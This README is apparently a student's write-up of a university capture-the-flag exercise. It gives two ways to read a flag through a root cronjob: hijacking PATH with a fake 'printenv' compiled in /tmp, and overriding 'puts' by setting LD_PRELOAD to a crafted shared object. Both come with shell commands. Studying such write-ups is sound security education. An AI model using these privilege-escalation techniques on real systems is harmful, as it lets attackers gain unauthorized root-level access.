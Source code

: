 # FSI-CTFS: British Punctuality
 
#### Exploits created by José Miguel Isidro aka [zmiguel2011](https://github.com/zmiguel2011)
## DISCAIMER:
> This exploit in British Punctuality's CTF in 22/23 is due to an honest mistake by the teacher who created the CTF.
> Although this wasn't the intended way to solve the CTF, this is how I managed to solve it. Nevertheless, the intended way to solving is also included in this repository and will explained [here](#intended-way-to-solve-the-ctf-exploitc)).

### Unintended Way to Solve the CTF (exploit.c)
> In [my_script.sh](../British%20Punctuality/my_script.sh) , printenv is vulnerable because of the missing absolute path. It should've been /bin/printenv. This enabled us to write arbitrary code in a 'fake' printenv program created by the user.

> You would have to compile this [program](../British%20Punctuality/exploit.c) with ggc and output the file to "printenv" in the /tmp folder.
```bash
cd /tmp
gcc -o printenv exploit.c
```

> Create a new /tmp/env file with:

```bash
PATH=/tmp
```

> Let the cronjob run and execute your printenv program and retrieve the flag from the last_log text file with:
```bash
cat /tmp/last_log
```


### Intended Way to Solve the CTF (exploit.c)

> Compile this [program](../British%20Punctuality/exploit2.c) with ggc and create shared object in the /tmp folder.
```bash
gcc -c -Wall -Werror -fpic exploit.c
gcc -shared -o myexploit.so exploit.o
```

> Create a new /tmp/env file with:

```bash
PATH=/tmp
LD_PRELOAD=/tmp/myexploit.so
```

> For reference, If you haven't heard about the [LD_PRELOAD](https://www.google.com/search?q=LD_PRELOAD+trick) environment variable, you should read about it for better understading of the step above.

> Let the cronjob run and execute the reader program which will then print the flag because the 'puts' function was overwritten. Retrieve the flag from the last_log text file with:
```bash
cat /tmp/last_log
```